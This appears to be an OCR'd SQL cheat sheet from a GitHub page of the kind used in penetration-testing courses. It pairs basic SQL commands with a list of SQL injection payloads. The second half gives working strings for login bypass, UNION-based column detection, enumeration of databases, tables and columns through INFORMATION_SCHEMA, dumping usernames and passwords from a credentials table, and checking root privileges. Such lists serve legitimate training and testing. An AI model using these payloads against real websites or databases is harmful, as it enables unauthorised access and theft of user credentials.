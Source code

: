 | `SELECT * FROM table_name`                                                                                                                 | Show all columns in a table                              |
| `SELECT column1, column2 FROM table_name`                                                                                                  | Show specific columns in a table                         |
| `DROP TABLE logins`                                                                                                                        | Delete a table                                           |
| `ALTER TABLE logins ADD newColumn INT`                                                                                                     | Add new column                                           |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn`                                                                                  | Rename column                                            |
| `ALTER TABLE logins MODIFY oldColumn DATE`                                                                                                 | Change column datatype                                   |
| `ALTER TABLE logins DROP oldColumn`                                                                                                        | Delete column                                            |
| `SELECT * FROM logins ORDER BY column_1`                                                                                                   | Sort by column                                           |
| `SELECT * FROM logins ORDER BY column_1 DESC`                                                                                              | Sort by column in descending order                       |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC`                                                                                      | Sort by two-columns                                      |
| `SELECT * FROM logins LIMIT 2`                                                                                                             | Only show first two results                              |
| `SELECT * FROM logins LIMIT 1, 2`                                                                                                          | Only show first two results starting from index 2        |
| `SELECT * FROM table_name WHERE <condition>`                                                                                               | List results that meet a condition                       |
| `SELECT * FROM logins WHERE username LIKE 'admin%'`                                                                                        | List results where the name is similar to a given string |
| `admin' or '1'='1`                                                                                                                         | Basic Auth Bypass                                        |
| `admin')-- -`                                                                                                                              | Basic Auth Bypass With comments                          |
| `' order by 1-- -`                                                                                                                         | Detect number of columns using order by                  |
| `cn' UNION select 1,2,3-- -`                                                                                                               | Detect number of columns using Union injection           |
| `cn' UNION select 1,@@version,3,4-- -`                                                                                                     | Basic Union injection                                    |
| `UNION select username, 2, 3, 4 from passwords-- -`                                                                                        | Union injection for 4 columns                            |
| `SELECT @@version`                                                                                                                         | Fingerprint MySQL with query output                      |
| `SELECT SLEEP(5)`                                                                                                                          | Fingerprint MySQL with no output                         |
| `cn' UNION select 1,database(),2,3-- -`                                                                                                    | Current database name                                    |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`                                                                  | List all databases                                       |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`                                 | List all tables in a specific database                   |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`                | List all columns in a specific table                     |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`                                                                       | Dump data from a table in another database               |
| `cn' UNION SELECT 1, user(), 3, 4-- -`                                                                                                     | Find current user                                        |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`                                                               | Find if user has admin privileges                        |